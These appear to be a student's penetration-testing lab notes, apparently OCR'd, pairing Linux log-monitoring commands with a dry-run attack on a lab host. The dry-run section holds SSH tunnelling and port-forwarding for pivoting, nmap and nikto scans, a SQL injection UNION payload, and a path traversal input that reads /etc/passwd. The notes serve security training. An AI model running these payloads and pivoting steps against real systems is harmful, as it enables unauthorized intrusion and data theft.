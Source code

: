 journal ctl					Kernel Log for SystemD
	journalctl _TRANSPORT=audit
	journalctl _TRANSPORT=audit | grep 603
	
Logs To Monitor
	auth.log/secure				Logins/authentications
	lastlog					Each users' last successful login time
	btmp						Bad login attempts
	sulog						Usage of SU command
	utmp						Currently logged in users (W command)
	wtmp						Permanent record on user on/off
	
Log Handling Order of Operations
	file /var/log/wtmp
	find /var/log -type f -mmin -10 2> /dev/null
	journalctl -f -u ssh
	journalctl -q SYSLOG_FACILITY=10 SYSLOG_FACILITY=4
	
Commands
	stat						Shows file timestamps
	

rsyslog.conf

find / -type f -perm /2000 -ls 2>/dev/null
find / -type f -perm /4000 -ls 2>/dev/null
find / -type f -perm /6000 -ls 2>/dev/null



Dry Run Notes
* = COMMANDS RUN

SOCKETS:
	ssh -MS /tmp/gray user2@10.50.47.187
	ssh -S /tmp/t2 t2 -O forward -D 9050
	ssh -S /tmp/t2 t2 -O forward -L 13000:192.168.28.181:80
	ssh -S /tmp/t2 t2 -O forward -L 40000:192.168.28.172:22
	ssh -S /tmp/t2 t2 -O forward -L 41000:192.168.28.181:22
	ssh -MS /tmp/t3 Aaron@0.0.0.0 -p 40000

http://0.0.0.0:30100/pick.php?product=7 UNION SELECT table_schema,column_name,3 FROM information_schema.columns #




target IP = 10.50.47.187
if subnet then ping/nmap
else nmap scan
	*nmap -v -sT -Pn -T4 10.50.47.187
	 	22/tcp open  ssh
		80/tcp open  http
	*nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 10.50.47.187 -p 80 OR *nikto -h 10.50.47.187
		80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
		| http-enum: 
		|   /login.php: Possible admin folder
		|   /login.html: Possible admin folder
		|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
		|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
		|_http-server-header: Apache/2.4.29 (Ubuntu)
GO TO PAGE
	OPEN ALL LINKS AND INTERACT WITH THE STUFF ON THE PAGES
		*executive assistant page text box:
			../../../../../../etc/passwd
				root:x:0:0:root:/root:/bin/bash